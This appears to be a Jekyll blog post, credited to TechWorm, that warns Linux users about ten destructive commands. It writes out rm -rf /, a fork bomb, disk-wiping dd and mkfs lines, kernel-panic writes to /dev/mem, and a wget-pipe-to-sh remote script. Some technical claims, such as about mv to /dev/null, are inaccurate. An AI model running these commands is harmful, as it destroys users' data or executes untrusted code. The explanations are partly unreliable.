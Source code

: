 ```yaml
---
layout: post
title: 10 Most Dangerous Commands
subtitle: You Should Never Execute on Linux
bigimg: /img/mostcommands.gif
---
```


## 10 Most Dangerous Commands
You Should Never Execute on Linux

### 1. rm -rf Command
Commonly known as the recursive delete command, the rm -rf command is one of the fastest way to delete a folder and its contents. But a little typo or ignorance may result into unrecoverable system damage. The some of options used with rm command are.

```
1. rm command in Linux is used to delete files.
2. rm -r command deletes the folder recursively, even the empty folder.
3. rm -f command removes ‘Read only File’ without asking.
4. rm -rf / : Force deletion of everything in root directory.
5. rm -rf * : Force deletion of everything in current directory/working directory.
6. rm -rf . : Force deletion of current folder and sub folders.
```

Hence, be careful when you are executing rm -rf command. To overcome accidental delete of file by ‘rm‘ command, create an alias of ‘rm‘ command as ‘rm -i‘ in ".bashrc" file, it will ask you to confirm every deletion.’

Note, these days on most Linux systems if you tried doing this you’d get a warning. But the warning isn’t guaranteed, so just don’t do it.

## 2. :(){:|:&};: Command
   
This command is actually a fork bomb. It operates by defining a function called ‘:‘, which calls itself twice, once in the foreground and once in the background. It keeps on executing again and again till the system freezes.
   
``` :(){:|:&};: ```

This fork bomb command defines a function named : that recursively calls itself twice when executed. One of the recursive calls happens in the foreground while the other happens in the background.
   
In other words, whenever this function executes, it spawns two child processes. Those child processes spawn their own child processes, and this cycle keeps going in an infinite loop. The only way out of it is to reboot the system.

## 3. Format Hard Drive
   
The terminal is especially tricky for Linux newbies because it provides several ways to accidentally wipe one’s hard drive. Recursive deletion is a big one, but here’s another:
   
> mkfs.ext3 /dev/hda

This command formats the hard drive to use the ext3 filesystem.The above command will format the block ‘sda’ and you would surely be knowing that after execution of the above command your Block (Hard Disk Drive) would be new, BRAND NEW! Without any data, leaving your system into unrecoverable stage.

## 4. Overwrite Hard Drive

Never use this command if your workstation contains life long work. At least disk formatting is an actual procedure with real-life uses; directly overwriting one’s drive, on the other hand, is not so great.

> 'command' > /dev/hda

In the command above, command can be replaced by any Bash command. The > operator redirects the output from the command on its left to the file on its right. In this case, it doesn’t matter what the output of the left command is. That raw data is being redirected and used to overwrite the system hard drive. This renders your Linux PC/laptop useless.

## 5. Wipe Hard Drive
   
   This command will completely wipe out your hard drive. No data corruptions or overwrites; it will literally fill your hard drive with zeroes. While this command can be necessiated if you have to start afresh but wiping your hard drive is a bad idea.
   
> dd if=/dev/zero of=/dev/hda

The dd command is a low-level instruction that’s mostly used to write data to physical drives. The ifparameter determines the source of data, which in this case is **/dev/zero**, a special on Linux that produces an infinite stream of zeroes. The of parameter determines the destination of those zeroes, which is the /dev/hda drive.

## 6. > file Command
   
The above command is used to flush the content of file. If the above command is executed with a typo or ignorance like “> xt.conf” will write the configuration file or any other system or configuration file and lead to a complete breakdown of your PC/workstation.

## 7. Implode Hard Drive
   
For some special reasons, Linux has a special file called **/dev/null** that will discard whatever data is written to it. You can think of it as a black hole or a file shredder: anything given to it as input will be eaten up for good. You must have understood what I was alluding to. Running any command with **/dev/null** can shred that particular data file. However using the **/dev/null** with some other commands can be quite devastating for you.
   
> mv / /dev/null

The above mv command tries to move the system’s root directory **/** into the black hole of **/dev/null**. This is a valid command and the result is devastating: the hard drive gets eaten up and there’s nothing left. Doing this will make your system unusable.

## 8. ^foo^bar
   
   FUBAR stands for **fucked up beyond all recognition/any repair/all reason**. As the name suggests, this command if not used properly can fuck up your system. This command is used to edit the previous run command without the need of retyping the whole command again. But this can really be troublesome if you didn’t take the risk of thoroughly checking the change in original command using **^foo^bar** command.
   
 ## 9. Cause Kernel Panic
    
While Windows has its infamous BSoD or Blue Screen of Death, Linux has a similar Blue Screen which is known as **Kernel Panic**. Sometimes, an internal error occurs from which recovery is impossible, so the system will enact something similar to the Blue Screen: a kernel panic. 

```
dd if=/dev/random of=/dev/port
echo 1 > /proc/sys/kernel/panic
cat /dev/port
cat /dev/zero > /dev/mem
```

If the above commands aren’t important here. What is important is that running any of those lines will result in a kernel panic, forcing you to reboot your system. It’s best to stay away from these commands unless you’re absolutely sure you know what you’re doing.

## 10. Execute Remote Script

Here’s an innocent command that can actually be useful in day-to-day life on a Linux system. **wget** retrieves the contents of a web URL, which can be used to access websites or download files. However, there’s a simple trick that turns it dangerous:

> wget http://an-untrusted-url -O- \| sh
 

**wget http://malicious_source -O- | sh** command will download a script from a malicious source and then execute it. Wget command will download the script and sh will execute the downloaded script.The above combination downloads the contents of the given URL and immediately feeds it to the **sh** command, which executes the downloaded contents in the terminal. If the URL were to point to a malicious script, you’d be sealing your own fate with this command.

Font [TechWorm](http://www.techworm.net/2016/10/10-lethal-linux-commands-never-execute.html)